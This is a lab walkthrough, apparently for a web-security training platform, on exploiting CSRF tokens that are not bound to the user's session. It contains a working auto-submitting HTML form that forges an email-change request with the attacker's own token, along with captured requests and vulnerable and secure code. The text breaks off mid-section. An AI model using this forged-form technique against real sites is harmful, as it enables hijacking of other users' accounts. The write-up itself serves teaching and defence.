

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify CSRF vulnerability with session-independent tokens
- 🎯 Understand token pool validation flaw
- 🔄 Use two accounts to test token interchangeability
- 💡 Discover tokens work across different user sessions
- 🎫 Steal valid token from your own account
- 💉 Craft CSRF attack using your token for victim
- 🚀 Use exploit server to deliver attack with valid token
- 🎪 Auto-submit form to change victim's email
- 🚨 Bypass CSRF protection using session-independent token
- 🎉 Complete lab successfully

---

## 🧠 **Concept Recap**

> **CSRF where token is not tied to user session** is a critical security flaw where CSRF tokens exist and are validated, but the server doesn't verify that the token belongs to the current user's session. Instead, tokens are validated against a global pool - any valid token from any user is accepted. This allows attackers to use their own valid token to forge requests for other users, completely defeating the purpose of CSRF protection while appearing secure on the surface.

### 📊 **The Vulnerability**

**Normal CSRF Token Validation (Secure):**

```HTTP
User Alice changes email:
         ↓
POST /my-account/change-email HTTP/2
Cookie: session=ALICE_SESSION_123
Content-Type: application/x-www-form-urlencoded

email=alice-new@example.com&csrf=ALICE_TOKEN_ABC
         ↓
Server validation logic:
  1. Extract token from request: ALICE_TOKEN_ABC
  2. Extract session from cookie: ALICE_SESSION_123
  3. Look up token for session ALICE_SESSION_123
  4. Expected token: ALICE_TOKEN_ABC
  5. Received token: ALICE_TOKEN_ABC
  6. Match? YES ✓
         ↓
Token belongs to Alice's session ✓
Email changed successfully! ✓
         ↓
CSRF protection working correctly! 🛡️
```

**Attempting Attack with Wrong Token (Should Fail):**

```HTTP
Attacker tries using Bob's token for Alice:
         ↓
POST /my-account/change-email HTTP/2
Cookie: session=ALICE_SESSION_123
Content-Type: application/x-www-form-urlencoded

email=attacker@evil.com&csrf=BOB_TOKEN_XYZ
         ↓
Secure server validation:
  1. Extract token: BOB_TOKEN_XYZ
  2. Extract session: ALICE_SESSION_123
  3. Look up token for session ALICE_SESSION_123
  4. Expected token: ALICE_TOKEN_ABC
  5. Received token: BOB_TOKEN_XYZ
  6. Match? NO ❌
         ↓
Token does NOT belong to Alice's session! ❌
Request rejected! ✓
         ↓
Attack blocked! 🛡️
```

**Vulnerable System (Global Token Pool):**

```HTTP
Attacker uses their own token for victim:
         ↓
POST /my-account/change-email HTTP/2
Cookie: session=VICTIM_SESSION_456
Content-Type: application/x-www-form-urlencoded

email=attacker@evil.com&csrf=ATTACKER_TOKEN_789
         ↓
Vulnerable server validation:
  1. Extract token: ATTACKER_TOKEN_789
  2. Check if token exists in global pool
  3. Query: SELECT * FROM tokens WHERE token='ATTACKER_TOKEN_789'
  4. Found? YES ✓ (It's a valid token!)
  5. Token validation passed ✓
  6. ⚠️ Never checked if token belongs to this session!
         ↓
Token is valid (just not for THIS user!) 💣
Email changed to attacker@evil.com! 💥
         ↓
CSRF protection BYPASSED! 🎯
```

**Key Insight:**

```r
Why this vulnerability exists:

1. Token Pool vs Session Binding:
   
   ❌ VULNERABLE (Global Pool):
   └── Server stores: tokens = ["TOKEN_A", "TOKEN_B", "TOKEN_C"]
       └── Validation: Is token in tokens? YES → Accept
           └── Never checks: Does this token belong to THIS user?
               └── Any valid token works for any user! 💣
   
   ✅ SECURE (Session-Bound):
   └── Server stores: sessions = {
           "SESSION_1": {"token": "TOKEN_A", "user": "alice"},
           "SESSION_2": {"token": "TOKEN_B", "user": "bob"}
       }
       └── Validation: 
           1. Is token valid? ✓
           2. Does token belong to THIS session? ✓
           3. Both must match! 🛡️

2. The validation logic flaw:
   
   What developer implemented:
   function validateCSRF(token) {
       // Check if token exists
       if (tokenExists(token)) {
           return true;  // ✓ Token is valid
       }
       return false;
   }
   
   What developer forgot:
   function validateCSRF(token, session) {
       // Check if token exists
       if (!tokenExists(token)) {
           return false;  // Token doesn't exist
       }
       // ⚠️ MISSING: Check if token belongs to session!
       if (getTokenSession(token) !== session) {
           return false;  // Token doesn't belong to this user
       }
       return true;
   }

3. Why this is dangerous:
   └── Attacker can use their own account to:
       ├── Login legitimately
       ├── Get a valid CSRF token
       ├── Extract that token
       └── Use it in attacks against other users!
           └── Token is "valid" but for wrong user! 💣

4. Token lifecycle misunderstanding:
   
   Developer thinks:
   └── "Token exists = Request is legitimate" ✓
   
   Reality:
   └── "Token exists AND belongs to user = Legitimate" ✓
       └── "Token exists but belongs to attacker = Attack!" 💣

5. Common implementation patterns that cause this:
   
   Pattern A - Global token table:
   CREATE TABLE csrf_tokens (
       token VARCHAR(64) PRIMARY KEY,
       created_at TIMESTAMP
   );
   
   Validation:
   SELECT * FROM csrf_tokens WHERE token = ?
   ↑ Missing user_id/session_id check!
   
   Pattern B - Token pool in memory:
   validTokens = new Set();
   validTokens.add(generateToken());
   
   if (validTokens.has(requestToken)) {
       // Valid! ✓
   }
   ↑ Never associates token with session!
   
   Pattern C - Stateless tokens without session binding:
   token = sign("csrf-token-" + timestamp, secret);
   
   if (verify(token, secret)) {
       // Valid signature! ✓
   }
   ↑ Token is valid but doesn't identify user!

6. Real-world scenario:
   
   Normal flow:
   ├── Alice logs in → Gets TOKEN_A
   ├── Bob logs in → Gets TOKEN_B
   ├── Alice uses TOKEN_A → Works ✓
   └── Bob uses TOKEN_B → Works ✓
   
   Attack flow:
   ├── Attacker logs in as self → Gets TOKEN_EVIL
   ├── Attacker extracts TOKEN_EVIL
   ├── Attacker crafts CSRF for victim
   ├── CSRF includes TOKEN_EVIL (valid token!)
   └── Victim's browser sends:
       Cookie: victim_session
       csrf: TOKEN_EVIL
       └── Server validates:
           1. Is TOKEN_EVIL in database? YES ✓
           2. Request accepted! 💥
           ↑ Never checked if token belongs to victim!

7. The deception:
   └── System appears secure:
       ✓ CSRF tokens implemented
       ✓ Tokens are validated
       ✓ Invalid tokens rejected
   
   └── But protection is illusory:
       ❌ Tokens not tied to sessions
       ❌ Any valid token works
       ❌ Attacker can supply own token
       └── Complete bypass possible! 💣

8. Why developers make this mistake:
   ├── Misunderstanding token purpose
   │   └── Think: "Prove request came from our site"
   │       └── Forgot: "Prove request came from THIS user"
   │
   ├── Simplified implementation
   │   └── "Just check if token is valid"
   │       └── Easier than session binding
   │
   ├── Copy-paste code
   │   └── Example code validates token existence
   │       └── Never mentions session binding
   │
   └── Token reuse for convenience
       └── "One token for all forms"
           └── Lost per-session uniqueness

The vulnerability chain:
└── Server generates CSRF tokens ✓
    └── Server validates tokens exist ✓
        └── Server NEVER checks token ownership ❌
            └── Attacker generates own valid token
                └── Uses that token in victim's request
                    └── Server accepts: "Token is valid!" ✓
                        └── Attack succeeds! 💣

Comparison:
├── No CSRF protection: 0% security
├── Token not required: 0% security (bypass by omitting)
├── Method-based validation: 0% security (bypass via GET)
└── This vulnerability: 50% security
    └── Tokens validated ✓
    └── But can use any valid token ❌
        └── Attacker supplies own token
            └── Still 0% effective security! 💣
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the lab page
3. 📝 Note TWO sets of credentials:
    - Account 1: `wiener:peter`
    - Account 2: `carlos:montoya`

**Lab description:**

```
Lab: CSRF where token is not tied to user session

Vulnerability:
└── Email change has CSRF tokens
    └── But tokens not integrated with sessions
        └── Any valid token accepted! 💣

Goal:
└── Use exploit server to change victim's email
    └── Using a valid token from ANY account
        └── Exploit session-independent validation! 🎯

Key insight:
└── You have TWO accounts to test with
    └── Can verify tokens work across sessions
        └── Critical for understanding vulnerability!
```

---

### 🔐 **Step 2 — Login as First User (wiener)**

1. 🖱️ Click **"My account"**
2. 📝 Enter credentials:
    - Username: `wiener`
    - Password: `peter`
3. 🚀 Click **"Login"**

**After login:**

```
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: wiener                   │
│                                    │
│ Email: wiener@normal-user.net      │
│                                    │
│ Update email:                      │
│ [____________________________]     │
│                                    │
│ [Update email]                     │
│                                    │
└────────────────────────────────────┘
```

---

### 🔍 **Step 3 — Setup Burp Suite**

1. 🌐 Open Burp Suite
2. ⚙️ Ensure proxy configured
3. 🔄 Turn **Intercept ON**

---

### 📨 **Step 4 — Capture wiener's Email Change Request**

1. 🌐 In My Account page
2. ✏️ Enter test email: `test-wiener@example.com`
3. 🚀 Click **"Update email"**
4. 👀 Burp intercepts the request

**Intercepted request:**

```HTTP
POST /my-account/change-email HTTP/2
Host: 0a9e00fa03bc8b7fc0ad5fb100d60044.web-security-academy.net
Cookie: session=wiener_session_abc123xyz
User-Agent: Mozilla/5.0...
Content-Type: application/x-www-form-urlencoded
Content-Length: 85

email=test-wiener%40example.com&csrf=Kp9Lm3jN8qR5wV2tF7hG4sD1aB6cE0xY
```

**Analysis:**

```HTTP
Wiener's request components:

1. Session cookie: wiener_session_abc123xyz
   └── Identifies wiener's session

2. Email parameter: test-wiener@example.com
   └── New email address

3. CSRF token: Kp9Lm3jN8qR5wV2tF7hG4sD1aB6cE0xY
   └── This is wiener's CSRF token
   └── Question: Does it only work for wiener? 🤔

Key observation:
└── Token appears to be session-specific
    └── But we need to test if it truly is!
        └── Can carlos use wiener's token? 💡
```

---

### 📝 **Step 5 — Note wiener's CSRF Token**

**IMPORTANT: Save this token value!**

```
Wiener's CSRF token:
Kp9Lm3jN8qR5wV2tF7hG4sD1aB6cE0xY

Copy this somewhere safe - you'll need it!
```

1. 📋 Copy the CSRF token value
2. 📝 Save it in a text editor
3. ❌ Click **"Drop"** in Burp (don't send the request)

**Why drop the request:**

```
We want to:
└── Keep wiener's email unchanged
    └── Keep wiener's token valid
        └── Use it in our tests later

If we submit the request:
└── Email changes
    └── Token may be invalidated (single-use)
        └── Can't test cross-session usage!

So: Drop it now, test later! ✓
```

---

### 🚪 **Step 6 — Logout from wiener**

1. 🖱️ Click **"Log out"** (if available)
2. 🔄 Or close the browser tab

**Alternatively, open incognito window:**

```
Better approach: Use private/incognito window
└── Keeps wiener's session active in main window
    └── carlos in incognito window
        └── Can switch between both easily! ✓
```

---

### 👤 **Step 7 — Login as Second User (carlos)**

**Open private/incognito window:**

1. 🌐 Navigate to lab URL in incognito
2. 🖱️ Click **"My account"**
3. 📝 Enter credentials:
    - Username: `carlos`
    - Password: `montoya`
4. 🚀 Click **"Login"**

**After login:**

```
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: carlos                   │
│                                    │
│ Email: carlos@normal-user.net      │
│                                    │
│ Update email:                      │
│ [____________________________]     │
│                                    │
│ [Update email]                     │
│                                    │
└────────────────────────────────────┘
```

---

### 📨 **Step 8 — Capture carlos's Email Change Request**

1. 🔄 Ensure Burp **Intercept is ON**
2. ✏️ Enter test email: `test-carlos@example.com`
3. 🚀 Click **"Update email"**
4. 👀 Burp intercepts carlos's request

**Intercepted request:**

```HTTP
POST /my-account/change-email HTTP/2
Host: 0a9e00fa03bc8b7fc0ad5fb100d60044.web-security-academy.net
Cookie: session=carlos_session_def456uvw
User-Agent: Mozilla/5.0...
Content-Type: application/x-www-form-urlencoded
Content-Length: 85

email=test-carlos%40example.com&csrf=M5nQ8rL2pY7dC3vH9cX6wS1gB4zA0tK8
```

**Analysis:**

```HTTP
Carlos's request components:

1. Session cookie: carlos_session_def456uvw
   └── Different from wiener's session ✓

2. Email parameter: test-carlos@example.com
   └── Carlos's test email

3. CSRF token: M5nQ8rL2pY7dC3vH9cX6wS1gB4zA0tK8
   └── This is carlos's CSRF token
   └── Different from wiener's token ✓

Comparison:
├── Wiener's token: Kp9Lm3jN8qR5wV2tF7hG4sD1aB6cE0xY
└── Carlos's token: M5nQ8rL2pY7dC3vH9cX6wS1gB4zA0tK8
    └── Different tokens for different users ✓
        └── This is normal and expected

The test:
└── Can we use wiener's token with carlos's session? 🎯
```

---

### 🔄 **Step 9 — Send to Burp Repeater**

1. 🖱️ **Right-click** on the intercepted request
2. 📋 Select **"Send to Repeater"**
3. 🔄 Click **"Forward"** to let original request through
4. 📑 Switch to **"Repeater"** tab

**Current state in Repeater:**

```HTTP
POST /my-account/change-email HTTP/2
Cookie: session=carlos_session_def456uvw

email=test-carlos@example.com&csrf=M5nQ8rL2pY7dC3vH9cX6wS1gB4zA0tK8
                                    ↑
                            Carlos's token
```

---

### 🧪 **Step 10 — Test carlos's Token (Baseline)**

1. 🚀 Click **"Send"** in Repeater
2. 👀 Observe response

**Expected response:**

```HTTP
HTTP/2 302 Found
Location: /my-account

Email updated successfully!
```

**Confirmation:**

```
✅ Carlos's token works for carlos
✅ Normal behavior
✅ Baseline established
```

---

### 💣 **Step 11 — Replace Token with wiener's Token**

**This is the critical test!**

1. ✏️ Replace carlos's token with wiener's token:

```HTTP
BEFORE (carlos's token):
email=test-carlos2@example.com&csrf=M5nQ8rL2pY7dC3vH9cX6wS1gB4zA0tK8

         ↓ Replace with wiener's token ↓

AFTER (wiener's token):
email=test-carlos2@example.com&csrf=Kp9Lm3jN8qR5wV2tF7hG4sD1aB6cE0xY
```

**Full modified request:**

```HTTP
POST /my-account/change-email HTTP/2
Host: 0a9e00fa03bc8b7fc0ad5fb100d60044.web-security-academy.net
Cookie: session=carlos_session_def456uvw
                        ↑
                Carlos's session (unchanged)
Content-Type: application/x-www-form-urlencoded

email=test-carlos2@example.com&csrf=Kp9Lm3jN8qR5wV2tF7hG4sD1aB6cE0xY
                                     ↑
                            Wiener's token!
```

**What we're testing:**

```
Question: Will server accept wiener's token for carlos's request?

Secure system should:
├── Check: Is token valid? YES ✓
├── Check: Does token belong to carlos's session? NO ❌
└── Result: Reject request ✓

Vulnerable system:
├── Check: Is token valid? YES ✓
└── Result: Accept request! 💣
    ↑ Never checked session ownership!
```

2. 🚀 Click **"Send"**
3. 👀 Observe response carefully

**Expected response (VULNERABILITY CONFIRMED):**

```HTTP
HTTP/2 302 Found
Location: /my-account

Email updated successfully!
```

**CRITICAL DISCOVERY:**

```
🎯 VULNERABILITY CONFIRMED!

✅ Request ACCEPTED!
✅ Carlos's email changed!
✅ Using wiener's token!
❌ Server didn't check token ownership!

The flaw:
└── Server validated:
    ├── Is token valid? YES ✓ (wiener's token exists)
    └── Accept request! ✓
    
    └── Server DIDN'T validate:
        ├── Does token belong to THIS session? ❌
        └── SKIPPED this critical check!

What this means:
└── Any valid token works for any user! 💣
    ├── Attacker can use their own token
    ├── Token will be valid (it's theirs!)
    └── Works for attacking any other user!
        └── Complete CSRF bypass! 🎯

Attack implications:
└── Attacker doesn't need to:
    ├── Steal victim's token
    ├── Guess victim's token
    ├── Intercept victim's request
    
    └── Attacker just needs to:
        ├── Login with own account
        ├── Get their own valid token
        └── Use that token in CSRF attack!
            └── Their token will work! 💥
```

---

### 📊 **Step 12 — Understanding the Discovery**

**Token validation comparison:**

```r
Test 1: Carlos's token with carlos's session
├── Session: carlos_session_def456uvw
├── Token: M5nQ8rL2pY7dC3vH9cX6wS1gB4zA0tK8 (carlos's)
└── Result: ACCEPTED ✓ (Expected)

Test 2: Wiener's token with carlos's session
├── Session: carlos_session_def456uvw
├── Token: Kp9Lm3jN8qR5wV2tF7hG4sD1aB6cE0xY (wiener's)
└── Result: ACCEPTED! 💣 (VULNERABILITY!)

What this proves:
└── Tokens are NOT session-bound
    └── Any valid token accepted
        └── Session doesn't matter!

Server's flawed logic:
if (token_exists_in_database(token)) {
    return true;  // Accept!
}
// Never checked: token.session_id == current_session.id

Secure logic should be:
if (token_exists(token) && token.session == current_session) {
    return true;  // Both conditions required!
}
```

---

### 🎨 **Step 13 — Plan the Attack**

**Attack strategy:**

```r
Attack components needed:

1. Valid CSRF token:
   └── Login as attacker (wiener)
       └── Extract CSRF token
           └── This token will be "valid" ✓

2. Victim's session:
   └── Victim (carlos) logged in
       └── Has valid session cookie
           └── Browser sends automatically ✓

3. CSRF form:
   └── Form with attacker's email
       └── Includes attacker's valid token
           └── Auto-submits when victim visits

Attack flow:
├── Attacker gets their own token
├── Creates malicious form with their token
├── Victim visits exploit page
├── Form auto-submits to vulnerable site
├── Victim's browser sends:
│   ├── Victim's session cookie (automatic)
│   └── Attacker's CSRF token (from form)
├── Server validates:
│   └── Is token valid? YES (attacker's token exists)
│       └── Accept request! 💥
└── Victim's email changed! 🎯

Key insight:
└── Attacker supplies a VALID token (their own)
    └── Server accepts valid tokens regardless of user
        └── Attack succeeds! 💣
```

---

### 🔄 **Step 14 — Get Fresh CSRF Token**

**Important: Tokens may be single-use!**

1. 🔄 Go back to wiener's account (main browser)
2. 🔍 View page source or inspect element
3. 🔎 Find the CSRF token in the form

**Looking for token in HTML:**

```html
<form method="POST" action="/my-account/change-email">
    <input type="hidden" name="csrf" value="N7pQ4rM9sY2dH5vL8cX3wK6gT1zA0bJ4">
    <input type="email" name="email">
    <button type="submit">Update email</button>
</form>
```

**Extract fresh token:**

```
Fresh token for exploit:
N7pQ4rM9sY2dH5vL8cX3wK6gT1zA0bJ4

This is wiener's current valid token ✓
```

**Why fresh token needed:**

```
Token lifecycle:
└── Some systems use single-use tokens
    └── After one use, token invalidated
        └── Need fresh token for exploit!

If using old token:
└── May have been used already
    └── Could be invalidated
        └── Exploit fails! ❌

Using fresh token:
└── Never used before
    └── Guaranteed valid
        └── Exploit succeeds! ✓
```

---

### 💻 **Step 15 — Create CSRF Exploit**

**HTML exploit code:**

```html
<form method="POST" action="https://0a9e00fa03bc8b7fc0ad5fb100d60044.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="hacker@evil.com">
    <input type="hidden" name="csrf" value="N7pQ4rM9sY2dH5vL8cX3wK6gT1zA0bJ4">
</form>
<script>
    document.forms[0].submit();
</script>
```

**Understanding the exploit:**

```html
<form method="POST" action="https://[LAB-ID].web-security-academy.net/my-account/change-email">
    
    Target endpoint ✓
    
    <input type="hidden" name="email" value="hacker@evil.com">
    
    Attacker's chosen email ✓
    
    <input type="hidden" name="csrf" value="N7pQ4rM9sY2dH5vL8cX3wK6gT1zA0bJ4">
                                          ↑
                    This is ATTACKER'S (wiener's) valid token!
                    NOT victim's token!
                    But it will work because server doesn't check ownership! 💣
    
</form>

<script>
    document.forms[0].submit();
</script>

Auto-submit on page load ✓

When victim visits:
├── Form loads with attacker's token
├── Auto-submits immediately
├── Browser sends:
│   POST /my-account/change-email
│   Cookie: VICTIM_SESSION (automatic!)
│   
│   email=hacker@evil.com
│   csrf=N7pQ4rM9sY2dH5vL8cX3wK6gT1zA0bJ4 (attacker's token)
│
├── Server validates:
│   └── Is csrf token valid?
│       └── Query database: token exists? YES ✓
│           └── Accept request! 💥
│               ↑ Never checked if token belongs to victim!
│
└── Email changed to hacker@evil.com! 🎯

The key difference from other CSRF labs:
└── Previous labs: No token or bypass validation
    └── This lab: Use VALID token (just not victim's)
        └── Our own valid token works for victim! 💣
```

---

### 🌐 **Step 16 — Access Exploit Server**

1. 🔙 Go back to lab page
2. 🖱️ Click **"Go to exploit server"**

**Exploit server interface:**

```
┌────────────────────────────────────────────────────────┐
│ Exploit Server                                         │
├────────────────────────────────────────────────────────┤
│                                                        │
│ Body:                                                  │
│ [______________________________________]               │
│ [______________________________________]               │
│                                                        │
│ [Store] [View exploit] [Deliver exploit to victim]     │
└────────────────────────────────────────────────────────┘
```

---

### 📝 **Step 17 — Paste Exploit HTML**

**Paste into Body field:**

```html
<form method="POST" action="https://0a9e00fa03bc8b7fc0ad5fb100d60044.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test123@test.com">
    <input type="hidden" name="csrf" value="N7pQ4rM9sY2dH5vL8cX3wK6gT1zA0bJ4">
</form>
<script>
    document.forms[0].submit();
</script>
```

**Replace:**

- Lab ID with YOUR lab ID
- `N7pQ4rM9sY2dH5vL8cX3wK6gT1zA0bJ4` with YOUR fresh token
- `test123@test.com` with test email

---

### 💾 **Step 18 — Store and Test Exploit**

1. 💾 Click **"Store"**
2. 👁️ Click **"View exploit"**

**What happens:**

```r
Exploit page loads
         ↓
Form element created with:
  email = test123@test.com
  csrf = N7pQ4rM9sY2dH5vL8cX3wK6gT1zA0bJ4 (wiener's token)
         ↓
Auto-submit executes
         ↓
Browser sends POST:
  Cookie: YOUR_SESSION (wiener or carlos - whoever is logged in)
  email=test123@test.com
  csrf=N7pQ4rM9sY2dH5vL8cX3wK6gT1zA0bJ4
         ↓
Server validates token:
  Token exists in database? YES ✓
  (It's wiener's token, but server doesn't care whose!)
         ↓
Email changed! ✓
```

**Verification:**

```
Check My Account page:
┌────────────────────────────────────┐
│ Email: test123@test.com  ← Changed!│
└────────────────────────────────────┘

✅ Exploit works!
✅ Token from one user works for another!
✅ Ready for victim delivery!
```

---

### 🔄 **Step 19 — Update Email for Victim**

**Get another fresh token (if needed):**

1. 🔄 Refresh wiener's My Account page
2. 🔍 View source, get fresh token
3. ✏️ Update exploit with new token and different email

```html
<form method="POST" action="https://0a9e00fa03bc8b7fc0ad5fb100d60044.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@attacker.com">
    <input type="hidden" name="csrf" value="P8rS5mK0tY3dJ6vN9cL2wH7gF4zA1bQ5">
</form>
<script>
    document.forms[0].submit();
</script>
```

4. 💾 Click **"Store"**

---

### 🎯 **Step 20 — Deliver Exploit to Victim**

1. 🚀 Click **"Deliver exploit to victim"**
2. ⏳ Wait for confirmation

**Attack execution:**

```r
Lab simulation:
         ↓
1. Victim (carlos) is logged in
   └── Has valid session cookie
   
2. Victim visits exploit URL
   └── Malicious page loads
   
3. Form auto-submits with:
   ├── email=pwned@attacker.com
   └── csrf=P8rS5mK0tY3dJ6vN9cL2wH7gF4zA1bQ5
       ↑ This is ATTACKER'S token from wiener's account!
   
4. Victim's browser sends:
   POST /my-account/change-email
   Cookie: VICTIM_SESSION_COOKIE
   
   email=pwned@attacker.com
   csrf=P8rS5mK0tY3dJ6vN9cL2wH7gF4zA1bQ5
   
5. Server receives:
   ├── Session: Victim's valid session
   ├── CSRF token: Attacker's valid token
   
6. Server validation:
   └── Check if csrf=P8rS5mK0tY3dJ6vN9cL2wH7gF4zA1bQ5 exists
       └── SELECT * FROM tokens WHERE token = ?
           └── Found! YES ✓ (It's wiener's token)
               └── Token valid! ✓
                   └── Accept request! 💥
   
   ⚠️ Server NEVER checked:
   └── Does this token belong to victim's session? ❌
   
7. Result:
   └── Victim's email changed to pwned@attacker.com! 🎯
   
8. Lab validation:
   └── Checks victim email was changed
       └── Lab solved! 🎉
```

---

### ✅ **Step 21 — Lab Completion**

**Success banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully exploited a       │
│  CSRF vulnerability by using a      │
│  session-independent token.         │
│                                     │
│  Lab: CSRF where token is not       │
│       tied to user session          │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab
         → Two accounts: wiener:peter, carlos:montoya
         ↓
Step 2: Login as wiener
         → Access My Account
         ↓
Step 3: Setup Burp Suite
         → Intercept ON
         ↓
Step 4: Capture wiener's email change
         → POST with csrf token
         ↓
Step 5: Note wiener's CSRF token
         → Save: Kp9Lm3jN8qR5wV2tF7hG4sD1aB6cE0xY
         → Drop request (don't submit)
         ↓
Step 6: Open incognito window
         → Keep wiener's session active
         ↓
Step 7: Login as carlos (incognito)
         → Second account active
         ↓
Step 8: Capture carlos's email change
         → POST with different csrf token
         ↓
Step 9: Send carlos's request to Repeater
         ↓
Step 10: Test carlos's token
         → Works normally ✓
         ↓
Step 11: Replace with wiener's token
         → Change csrf value to wiener's
         → Send request
         → ACCEPTED! 💥
         ↓
Step 12: VULNERABILITY CONFIRMED!
         → Tokens not session-bound ❌
         → Any valid token works! 💣
         ↓
Step 13: Get fresh CSRF token
         → From wiener's account
         → View page source
         ↓
Step 14: Create CSRF exploit
         → Form with attacker's email
         → Includes attacker's valid token
         → Auto-submit script
         ↓
Step 15: Upload to exploit server
         → Paste HTML
         → Store
         ↓
Step 16: Test exploit
         → View exploit
         → Email changed ✓
         ↓
Step 17: Update for victim
         → Fresh token
         → Different email
         → Store
         ↓
Step 18: Deliver to victim
         → Victim's session cookie (automatic)
         → Attacker's CSRF token (from form)
         → Server accepts: token is valid! ✓
         → Email changed! 💥
         ↓
Step 19: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **Session-Independent Token Validation**

```r
The vulnerable server-side code:

// ❌ VULNERABLE - Global token pool

const validTokens = new Set();

function generateToken(user) {
    const token = randomBytes(32).toString('hex');
    validTokens.add(token);  // Added to global pool
    // ⚠️ NOT associated with user/session!
    return token;
}

function validateCSRF(token) {
    // Only checks if token exists in global pool
    if (validTokens.has(token)) {
        return true;  // Token is valid!
    }
    return false;  // Token doesn't exist
    
    // ⚠️ MISSING: Check if token belongs to current session!
}

function handleEmailChange(req, res) {
    const token = req.body.csrf;
    
    if (!validateCSRF(token)) {
        return res.status(403).send('Invalid CSRF token');
    }
    
    // Token validated (but not session-bound!)
    updateEmail(req.session.user, req.body.email);
    res.redirect('/my-account');
}

The problem:
├── Token generation: ✓ Works
├── Token validation: ✓ Works
└── Session binding: ❌ MISSING!
    └── Any valid token accepted! 💣

Attack flow:
1. Attacker logs in → Gets TOKEN_A
2. TOKEN_A added to validTokens set
3. Attacker uses TOKEN_A in CSRF attack
4. Victim's browser sends:
   - Cookie: victim_session
   - csrf: TOKEN_A (attacker's token)
5. Server checks: validTokens.has(TOKEN_A)?
   - YES! ✓ (It's in the set)
6. Server accepts request! 💥
   - Never checked: Does TOKEN_A belong to victim?
```

---

### **Secure vs Vulnerable Implementation**

```r
// ❌ VULNERABLE: Global token pool

const tokens = ['TOKEN_A', 'TOKEN_B', 'TOKEN_C'];

function validate(token) {
    return tokens.includes(token);  // Any valid token!
}


// ✅ SECURE: Session-bound tokens

const sessions = {
    'session_123': { user: 'alice', csrf_token: 'TOKEN_A' },
    'session_456': { user: 'bob',   csrf_token: 'TOKEN_B' }
};

function validate(token, sessionId) {
    const session = sessions[sessionId];
    if (!session) return false;
    
    // Check token belongs to THIS session
    return session.csrf_token === token;
}


// ❌ VULNERABLE: Database without session binding

CREATE TABLE csrf_tokens (
    token VARCHAR(64) PRIMARY KEY,
    created_at TIMESTAMP
);

SELECT * FROM csrf_tokens WHERE token = ?
-- Any valid token from any user!


// ✅ SECURE: Database with session binding

CREATE TABLE csrf_tokens (
    token VARCHAR(64) PRIMARY KEY,
    session_id VARCHAR(64) NOT NULL,
    user_id INT NOT NULL,
    created_at TIMESTAMP
);

SELECT * FROM csrf_tokens 
WHERE token = ? AND session_id = ?
-- Token must belong to current session!


// Comparison:

Vulnerable:
if (tokenExists(token)) {
    return true;  // Global check only
}

Secure:
if (tokenExists(token) && tokenBelongsToSession(token, session)) {
    return true;  // Both checks required!
}
```

---

### **Why This Vulnerability Exists**

```r
Common developer mistakes:

1. Misunderstanding token purpose:
   
   Developer thinks:
   └── "Token proves request came from our site"
       └── "Just need to verify token is valid"
   
   Reality:
   └── "Token proves request from THIS user on our site"
       └── Must verify: token valid AND belongs to user

2. Simplified implementation:
   
   Copied from tutorial:
   └── "Add tokens to prevent CSRF"
       └── Generates tokens ✓
       └── Validates tokens exist ✓
       └── Forgot session binding ❌

3. Token reuse pattern:
   
   Convenience decision:
   └── "One token for entire session"
       └── "Reuse across all forms"
           └── Stored globally, not per-session
               └── Lost session association! ❌

4. Stateless token misconception:
   
   JWT/signed tokens:
   └── "Token is valid if signature valid"
       └── Token = sign(data, secret)
           └── Validation = verify(token, secret)
               └── But: Who does it belong to? ❌
                   └── Need user identifier in validation!

5. Database design oversight:
   
   Simple token table:
   └── CREATE TABLE tokens (token VARCHAR)
       └── Just stores token values
           └── No session_id column! ❌
               └── Can't bind to session!

6. Performance optimization gone wrong:
   
   "Optimization":
   └── "Looking up by session is slow"
       └── "Just check if token exists anywhere"
           └── Faster but insecure! ❌
```

---

### **Token Lifecycle Analysis**

```r
Token generation and validation:

Normal flow:
├── User A logs in
│   └── Session: SESSION_A
│       └── Generated token: TOKEN_A
│           └── Stored: (TOKEN_A, SESSION_A) ✓
│
├── User B logs in
│   └── Session: SESSION_B
│       └── Generated token: TOKEN_B
│           └── Stored: (TOKEN_B, SESSION_B) ✓
│
├── User A submits form
│   └── Sends: SESSION_A + TOKEN_A
│       └── Server checks: TOKEN_A belongs to SESSION_A? YES ✓
│           └── Accepted ✓
│
└── User B submits form
